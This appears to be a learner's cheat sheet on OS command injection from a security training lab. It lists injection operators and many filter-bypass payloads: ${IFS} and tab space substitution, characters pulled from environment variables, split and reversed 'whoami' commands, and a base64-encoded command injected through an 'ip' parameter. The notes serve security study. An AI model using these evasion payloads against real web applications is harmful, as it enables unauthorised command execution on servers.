 Many web applications execute local Operating System commands to perform certain processes. For example, a web application may install a plugin of our choosing by executing an OS command that downloads that plugin, using the plugin name provided. If not properly filtered and sanitized, attackers may be able to inject another command to be executed alongside the originally intended command (i.e., as the plugin name), which allows them to directly execute commands on the back end server and gain control over it. This type of vulnerability is called [command injection](https://owasp.org/www-community/attacks/Command_Injection).

This vulnerability is widespread, as developers may not properly sanitize user input or use weak tests to do so, allowing attackers to bypass any checks or filtering put in place and execute their commands.

For example, the WordPress Plugin `Plainview Activity Monitor 20161228` has a [vulnerability](https://www.exploit-db.com/exploits/45274) that allows attackers to inject their command in the `ip` value, by simply adding `| COMMAND...` after the `ip` value.


##### PHP
`exec`, `system`, `shell_exec`, `passthru`, or `popen`

##### NodeJS
`child_process.exec` or `child_process.spawn` 

#### Operators:
```
%0a - new line
&
&&
|
;
```

##### Bypass spaces:
* `%09` - tab char
* `${IFS}` - variable of space and tab
* `{ls,-la}` - brace expansion

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection#bypass-without-space

###### Bypass /; blacklisted:
```shell
la1n23@htb[/htb]$ echo ${PATH:0:1}
/

la1n23@htb[/htb]$ echo ${LS_COLORS:10:1}
;
```

```powershell
C:\htb> echo %HOMEPATH:~6,-11%
\

$env:HOMEPATH[0]
\

PS C:\htb> $env:PROGRAMFILES[10]
PS C:\htb>

```


Shifting
```shell
la1n23@htb[/htb]$ man ascii     # \ is on 92, before it is [ on 91
la1n23@htb[/htb]$ echo $(tr '!-}' '"-~'<<<[)

\
```

##### Bypass blacklisted commands
linux & win:
```shell
21y4d@htb[/htb]$ w'h'o'am'i

21y4d

21y4d@htb[/htb]$ w"h"o"am"i

21y4d
```

only linux:
```bash
w\ho\am\i

who$@ami
```

windows only:
```powershell
C:\htb> who^ami
```

##### Case manipulation

```shell
21y4d@htb[/htb]$ $(tr "[A-Z]" "[a-z]"<<<"WhOaMi")
```

```bash
$(a="WhOaMi";printf %s "${a,,}")
```

Reverse string:
```shell-session
21y4d@htb[/htb]$ $(rev<<<'imaohw')
```

```powershell-session
PS C:\htb> iex "$('imaohw'[-1..-20] -join '')"
```

Automated tools:
https://github.com/Bashfuscator/Bashfuscator
https://github.com/danielbohannon/Invoke-DOSfuscation

base64
```
ip=1.1.1.1%0bash<<<$(base64 -d<<<ZmluZCAvdXNyL3NoYXJlLyB8IGdyZXAgcm9vdCB8IGdyZXAgbXlzcWwgfCB0YWlsIC1uIDE=)
```